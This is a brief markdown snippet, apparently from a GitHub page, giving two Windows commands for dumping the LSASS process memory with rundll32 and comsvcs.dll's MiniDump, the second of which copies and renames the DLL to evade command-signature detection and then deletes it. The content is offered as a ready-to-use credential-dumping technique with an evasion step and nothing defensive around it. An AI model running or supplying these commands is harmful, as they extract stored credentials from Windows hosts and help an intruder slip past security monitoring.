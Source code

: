 ### Dump lsass process
```
rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id <fullPath>\lsassdump.dmp full
```

### Bypass command signature
```
$id = Get-Process lsass; cd c:\tmp; copy C:\Windows\System32\comsvcs.dll <newName>.dll; rundll32.exe <newName>.dll, MiniDump $id.Id c:\tmp\<file>.dmp full; Wait-Process -Id (Get-Process rundll32).id; del <newName>.dll;
```

